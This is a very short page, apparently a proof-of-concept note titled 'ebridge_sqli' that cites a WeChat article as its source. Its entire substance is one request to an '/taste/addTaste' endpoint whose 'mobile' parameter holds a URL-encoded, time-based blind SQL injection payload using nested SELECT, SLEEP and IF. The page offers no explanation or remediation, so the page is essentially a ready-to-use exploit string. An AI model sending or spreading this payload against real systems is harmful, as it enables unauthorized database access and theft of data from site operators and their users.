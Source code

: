 # ebridge_sqli

from: https://mp.weixin.qq.com/s/5PbFQrBLEZm8Qlk5L5nDoQ
```
/taste/addTaste?company=1&userName=1&openid=1&source=1&mobile=1%27%20AND%20(SELECT%208094%20FROM%20(SELECT(SLEEP(0-(IF(18015%3E3469,0,4)))))mKjk)%20OR%20%27KQZm%27=%27REcX
```
